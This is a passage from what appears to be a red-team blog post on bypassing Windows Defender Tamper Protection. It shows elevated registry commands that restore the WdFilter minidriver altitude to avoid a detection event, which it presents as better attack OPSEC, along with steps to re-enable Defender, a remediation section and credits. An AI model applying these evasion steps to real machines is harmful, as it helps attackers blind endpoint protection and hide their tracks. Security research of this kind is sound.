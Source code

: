 ```
# Command prompt with elevated privileges
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> reg add "HKLM\SYSTEM\CurrentControlSet\Services\WdFilter\Instances\WdFilter Instance" /v Altitude /t REG_SZ /d 328010 /f
The operation completed successfully.
```

Reboot the computer to make the changes effective. The WdFilter minidriver is restored back to it's original state, leaving Tamper Protection and Real-Time Protection still disabled. This improves the attacks overall OPSEC avoiding the above-mentioned Event ID.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020221124190217.png)

To restore Tamper Protection back to its original "enabled" state, perform the same process as above with an elevated NSudo prompt, setting the `TamperProtection` subkey value back to `5`: 

```
# Command prompt with elevated privileges
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> reg add "HKLM\SOFTWARE\Microsoft\Windows Defender\Features" /v TamperProtection /t REG_DWORD /d 5 /f
The operation completed successfully.
```

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020221124190959.png)

After performing a reboot, Tamper Protection re-enables along with Real-Time Protection and restores it back to its original protected state. Real-Time Protection can optionally be manually re-enabled in an Admin PowerShell session using:

```
# Enable realtime monitoring altogether
PS C:\Users\Administrator> Set-MpPreference -DisableRealtimeMonitoring $false

# Enables scanning for downloaded files or attachments
PS C:\Users\Administrator> Set-MpPreference -DisableIOAVProtection $false
```

The Proof of Concept (POC) incorporates functionality to reinstate the WdFilter minidriver, Tamper Protection and Defender settings based on this concept.

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/Bypass-Tamper-Protection/Images/Pasted%20image%2020221124191854.png)

## Remediation

To remediate this vulnerability, avoid permitting TrustedInstaller privileges to alter and delete the `HKLM\SYSTEM\CurrentControlSet\Services\WdFilter\Instances\WdFilter Instance\Altitude` registry key. 
A safer and a more favorable measure would be to protect all Defender registry keys subject to alteration using SYSTEM / TrustedInstaller privileges as patched in Windows 11 above BuildLabEx Version: 22621.1.amd64fre.ni_release.220506-1250 (Win11 22H2 22621.1105).

## Credits

- [Sektor7's evasion course](https://institute.sektor7.net/rto-win-evasion)
- [NSudo](https://github.com/M2Team/NSudo/releases)
- [superUser](https://github.com/mspaintmsi/superUser)
- [Research paper on Blinding Defender](https://arxiv.org/ftp/arxiv/papers/2210/2210.02821.pdf)
- [MDEInternals by FalconForce](https://www.first.org/resources/papers/conf2022/MDEInternals-FIRST.pdf)




